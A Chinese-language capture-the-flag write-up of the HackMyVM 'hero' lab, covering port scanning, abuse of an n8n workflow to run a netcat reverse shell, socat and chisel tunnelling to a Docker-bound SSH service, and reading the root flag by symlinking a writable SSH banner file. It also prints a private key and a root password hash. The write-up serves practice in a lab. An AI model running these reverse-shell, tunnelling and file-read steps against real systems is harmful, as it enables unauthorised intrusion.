 ```yaml
---
{"dg-publish":true,"title":"hackmyvm_hero","tags":["blog"],"dg-path":"安全/靶机/hackmyvm_hero.md","permalink":"/安全/靶机/hackmyvm_hero/","dgPassFrontmatter":true}
---
```


```table-of-contents
```
# 主机发现

```sh
┌──(root㉿kali)-[~/.ssh]
└─# nmap -sT -min-rate 5000 -p- 192.168.124.29
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-07 09:13 EST
Nmap scan report for 192.168.124.29 (192.168.124.29)
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
5678/tcp open  rrac
MAC Address: 08:00:27:1B:51:C7 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 23.73 seconds

```



# web渗透

80端口目录扫描啥也没扫出来

```sh
┌──(root㉿kali)-[~]
└─# curl 192.168.124.29
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACComGN9cfmTL7x35hlgu2RO+QW3WwCmBLSF++ZOgi9uwgAAAJAczctSHM3L
UgAAAAtzc2gtZWQyNTUxOQAAACComGN9cfmTL7x35hlgu2RO+QW3WwCmBLSF++ZOgi9uwg
AAAEAnYotUqBFoopjEVz9Sa9viQ8AhNVTx0K19TC7YQyfwAqiYY31x+ZMvvHfmGWC7ZE75
BbdbAKYEtIX75k6CL27CAAAACnNoYXdhQGhlcm8BAgM=
-----END OPENSSH PRIVATE KEY-----

```

首页信息像是一个私钥，但是主机也没开ssh

```sh
┌──(root㉿kali)-[~/workspace/pentest/hero]
└─# ssh-keygen -y -f id2
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKiYY31x+ZMvvHfmGWC7ZE75BbdbAKYEtIX75k6CL27C shawa@hero
```



看一下这个5678端口
运行的是一个N8N 的服务
https://github.com/n8n-io/n8n

---
在 Overview 里面找到 Credentials ，新增 shawa 账号和刚才的 key 。  
IP 注意不能是 localhost 或者 127.0.0.1 ，因为是 Docker 里。
提示你 Connection tested successfully 就行了。
在 Workflow 里面创建一个 Workflow ，弄个手动的 Trigger。 第二个节点选 SSH 
就可以 Test 命令了。

---

这里是大佬给的思路

我在配置凭证的时候一直不成功，然后重装了一遍靶机就好了
![Pasted image 20250208221653.png](/img/user/picture/Pasted%20image%2020250208221653.png)


![Pasted image 20250208092934.png](/img/user/picture/Pasted%20image%2020250208092934.png)
这里就可以尝试进行反弹shell

![Pasted image 20250208093103.png](/img/user/picture/Pasted%20image%2020250208093103.png)
```
 nc 192.168.124.27 8080 -e /bin/sh
```

![Pasted image 20250208093248.png](/img/user/picture/Pasted%20image%2020250208093248.png)

这里尝试取获得一个稳定的shell一直失败


```sh
netstat -lntup
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:5678            0.0.0.0:*               LISTEN      -
tcp        0      0 172.17.0.1:22           0.0.0.0:*               LISTEN      -
tcp        0      0 :::80                   :::*                    LISTEN      -
tcp        0      0 :::5678                 :::*                    LISTEN      -
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
...
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
...
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP
    link/ether 02:42:f5:e3:e5:c6 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:f5ff:fee3:e5c6/64 scope link
       valid_lft forever preferred_lft forever

```

注意到第三行是172.17.0.1:22，监听在特定IPv4地址的22端口。22是SSH端口，但这里的本地地址是172.17.0.1，这通常是Docker或其他容器网络的网关地址。可能主机上的SSH服务只绑定在这个内部地址，而不是0.0.0.0，这样外部网络可能无法通过SSH连接

所以我们尝试将这个转发出去
这里分享一下工具链接
https://github.com/ernw/static-toolbox/releases/tag/socat-v1.7.4.4

```sh
./socat TCP-LISTEN:2222,fork TCP4:172.17.0.1:22 &

netstat -lntup
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:5678            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:2222            0.0.0.0:*               LISTEN      2949/socat
tcp        0      0 172.17.0.1:22           0.0.0.0:*               LISTEN      -
tcp        0      0 :::80                   :::*                    LISTEN      -
tcp        0      0 :::5678                 :::*                    LISTEN      -

```

用私钥连接就可以了

```sh
ssh -i id2 -p 2222 shawa@192.168.124.30

...

hero:~$ ls
user.txt
hero:~$ cat user.txt
HMVOHIMNOTREAL
```




# 提权

sudo和suid都没什么东西

发现在ssh配置文件中设置了banner
```txt
# no default banner path
Banner /opt/banner.txt
```

```sh
hero:~$ cat /opt/banner.txt
shawa was here.
hero:~$ ls -l /opt/banner.txt
-rw-rw-rw-    1 root     root            16 Feb  6 10:09 /opt/banner.txt
```

```sh
hero:~$ ls -l /
total 65
...
drw-rw-rwx    3 root     root          4096 Feb  6 10:14 opt
...
```
发现opt目录我们是有操作权限的
所以我们就可以实现任意文件读取


```sh
hero:/opt$ rm banner.txt
hero:/opt$ ls
containerd
hero:/opt$ ln -sv /root/root.txt banner.txt
'banner.txt' -> '/root/root.txt'
hero:/opt$ ls -al
total 12
drw-rw-rwx    3 root     root          4096 Feb  8 02:38 .
drwxr-xr-x   21 root     root          4096 Feb  6 10:03 ..
lrwxrwxrwx    1 shawa    shawa           14 Feb  8 02:38 banner.txt -> /root/root.txt
drwx--x--x    4 root     root          4096 Feb  6 10:14 containerd
hero:/opt$ ssh root@localhost -p 2222
The authenticity of host '[localhost]:2222 ([127.0.0.1]:2222)' can't be established.
ED25519 key fingerprint is SHA256:EBZrmf2l6+BtffXHAEtSx6Suq5Wf09yzZlVqbQaGOVM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[localhost]:2222' (ED25519) to the list of known hosts.
HMVNOTINPRODLOL
root@localhost's password:

```
得到flag
```txt
HMVNOTINPRODLOL
```


# 补

如果一开始是使用的Execute Command这个模块进行的反弹shell
那么是不需要配置凭证的，但是获得的shell是在dockers中
```sh
┌──(root㉿kali)-[~]
└─# nc -lvnp 8080
listening on [any] 8080 ...
connect to [192.168.124.27] from (UNKNOWN) [192.168.124.30] 33421
id
uid=1000(node) gid=1000(node) groups=1000(node)
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
4: eth0@if5: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

首先把chishel工具上传上去
https://github.com/jpillora/chisel/releases

首先在本机执行：
```sh
┌──(root㉿kali)-[~/sharedir]
└─# ./chisel server -p 2025 --reverse
2025/02/08 05:08:01 server: Reverse tunnelling enabled
2025/02/08 05:08:01 server: Fingerprint g2Y54AZXMGOk5s+SFgpOtrSCfUOQ383VgB0MXoeNlRk=
2025/02/08 05:08:01 server: Listening on http://0.0.0.0:2025

```



在靶机中执行：
```sh
./chisel client 192.168.124.27:2025 R:2222:172.17.0.1:22 &
```

出现这个提示
![Pasted image 20250208181230.png](/img/user/picture/Pasted%20image%2020250208181230.png)

```sh
┌──(root㉿kali)-[~/workspace/pentest/hero]
└─# ssh -i id2 -p 2222 shawa@192.168.124.27
The authenticity of host '[192.168.124.27]:2222 ([192.168.124.27]:2222)' can't be established.
ED25519 key fingerprint is SHA256:EBZrmf2l6+BtffXHAEtSx6Suq5Wf09yzZlVqbQaGOVM.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:4: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.124.27]:2222' (ED25519) to the list of known hosts.
//这里会显示banner内容
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <https://wiki.alpinelinux.org/>.

You can setup the system with the command: setup-alpine

You may change this message by editing /etc/motd.

hero:~$id
uid=1000(shawa) gid=1000(shawa) groups=1000(shawa)

```


```txt
root:$6$WBuW3zyLro0fagui$gq9zWbt3gEpo26gkIjtgjYZqjCJtjJrJO9EHaWkglVZWwWhQiiSNmMGejRn.Q58Z9knsWP59OQqLPgt2NAWd80:20125:0:::::


root:x:0:0:root:/root:/bin/sh
```












